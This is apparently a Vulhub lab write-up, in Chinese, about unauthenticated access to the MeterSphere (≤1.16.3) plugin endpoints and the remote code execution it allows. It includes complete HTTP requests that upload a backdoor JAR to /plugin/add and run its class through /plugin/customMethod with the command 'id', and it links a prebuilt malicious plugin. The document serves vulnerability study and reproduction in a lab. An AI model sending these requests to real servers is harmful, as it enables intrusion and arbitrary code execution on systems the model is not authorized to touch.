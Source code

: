 # MeterSphere 插件接口未授权访问及远程代码执行

## 漏洞描述

MeterSphere是基于GPLv3协议的一站式的开源持续测试平台。在其1.16.3版本及以前，插件相关管理功能未授权访问，导致攻击者可以通过上传插件的方式在服务器中执行任意代码。

参考连接：

- <https://xz.aliyun.com/t/10772>

## 漏洞环境

执行如下命令启动一个MeterSphere 1.16.3服务器：

```
docker compose up -d
```

MeterSphere初始化成功后，访问`http://your-ip:8081`即可跳转到默认登录页面。

## 漏洞复现

首先，我们访问`http://your-ip:8081/plugin/list`可见成功返回插件信息（虽然此时插件为空），说明`/plugin/*`接口存在未授权访问问题，可以利用。

![](images/1-16929500427601.png)

利用漏洞前，需要准备一个恶意MeterSphere插件。Vulhub提供了一个已经编译好的[插件](https://github.com/vulhub/metersphere-plugin-Backdoor/releases/tag/v1.1.0)以供测试（**请勿在非授权环境下测试**）。

将恶意插件使用如下数据包上传：

```
POST /plugin/add HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJV2KX1EL5qmKWXsd
Content-Length: 11985

------WebKitFormBoundaryJV2KX1EL5qmKWXsd
Content-Disposition: form-data; name="file"; filename="Evil.jar"

[Paste your jar file]
------WebKitFormBoundaryJV2KX1EL5qmKWXsd--
```

![](images/2-16929500427612.png)

> **如果使用Burpsuite来复现漏洞，你需要注意数据包编码问题，否则可能将无法复现。**

虽然这次上传会返回错误信息，但实际上恶意JAR包已经成功被添加进系统ClassLoader中。

发送如下数据包来执行`org.vulhub.Evil`类中的恶意代码：

```
POST /plugin/customMethod HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 89

{
  "entry": "org.vulhub.Evil",
  "request": "id"
}
```

![](images/3.png)